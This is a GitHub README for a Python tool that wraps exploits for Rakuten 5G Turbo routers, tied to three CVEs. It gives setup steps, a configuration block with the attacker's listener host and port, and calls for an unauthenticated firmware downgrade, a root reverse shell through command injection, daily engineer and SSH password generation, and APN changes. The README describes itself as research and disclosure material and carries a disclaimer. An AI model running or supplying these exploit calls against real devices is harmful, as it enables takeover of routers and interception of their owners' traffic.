 
# Rakuten 5G Turbo - Exploit Wrapper API

## Overview

This repository provides a Python API to exploit known vulnerabilities on Rakuten 5G Turbo devices. These vulnerabilities include firmware downgrade without authentication, remote command execution, and information exposure. The project is intended for research purposes to demonstrate potential risks and improve security awareness.

<img src="https://neroteam.com/blog/pages/rakuten-5g-turbo-vulnerability/rakuten-5g-hacked.jpg?m=1722297533" alt="Rakuten 5G Turbo Exploit Wrapper API" width="600">

### CVEs Addressed:
- **[CVE-2024-47865]** - Missing Authentication for Critical Function
- **[CVE-2024-48895]** - OS Command Injection
- **[CVE-2024-52033]** - Exposure of Sensitive Information

## Prerequisites

- Python 3.x

## Installation

1. Clone the repository:
    ```sh
    git clone https://github.com/0xNslabs/Rakuten5GTurboAPI
    cd Rakuten5GTurboAPI
    ```

2. Install the dependencies:
    ```sh
    pip install zeep requests argparse cryptography
    ```

## Usage

### Configuration

Before running any exploit, update the `device` dictionary in `main.py` with the relevant details:

```python
device = {
    "turboIp": "192.168.210.1", # Device IP
    "turboUsername": "admin", # Device username
    "turboPassword": "admin", # Device password
    "host": "192.168.210.157", # Used for reverse shell CVE-2024-48895
    "port": "33666", # Used for reverse shell CVE-2024-48895
    "apn": "rakuten.jp", # Set new APN
    "fwImage": "GA2421@230920_1.3.14.ffw", # CVE-2024-47865
}
```

### Exploiting Vulnerabilities

#### 1. Missing Authentication for Firmware Downgrade (CVE-2024-47865)
Use the `execInstallFw` function to downgrade or install firmware without authentication:
```python
response = turboApi.execInstallFw(device)
print(response)
```

#### 2. Authenticated Remote Command Injection (CVE-2024-48895)
Use the `execRevrsShell` function to execute a reverse shell as root:
```python
response = turboApi.execRevrsShell(device)
print(response)
```

### Bonus Features
- **Generate Engineer Password**: Obtain full web access with `getEngineerPassword` 
- (Note: The password is automatically updated by the device everyday at midnight):
    ```python
    response = turboApi.getEngineerPassword(device)
    print(response)
    ```
- **Generate SSH Password**: Gain SSH access via debug firmware with `getSshPassword` (only working by installing debug firmware, e.g. DG2425@2406171559_DG1.3.18.ffw):
- (Note: The password is automatically updated by the device everyday at midnight):
    ```python
    response = turboApi.getSshPassword(device)
    print(response)
    ```
    
- **Direct APN Configuration**: Update the APN via `setDeviceApn`:
    ```python
    response = turboApi.setDeviceApn(device)
    print(response)
    ```

## Write-Up
https://neroteam.com/blog/rakuten-5g-turbo-vulnerability

## Video Proof of Concept
[![Script PoC CVE-2024-47865 remote code execution](https://i.ibb.co/7gXHL9q/500px-youtube-social-play.png)](https://youtu.be/tPDwhkLjL7s)

## Disclaimer

This software is provided for educational and research purposes only. Unauthorized access to or exploitation of computer systems is illegal and unethical. The authors and contributors of this software are not liable for any misuse or damages caused by its use.

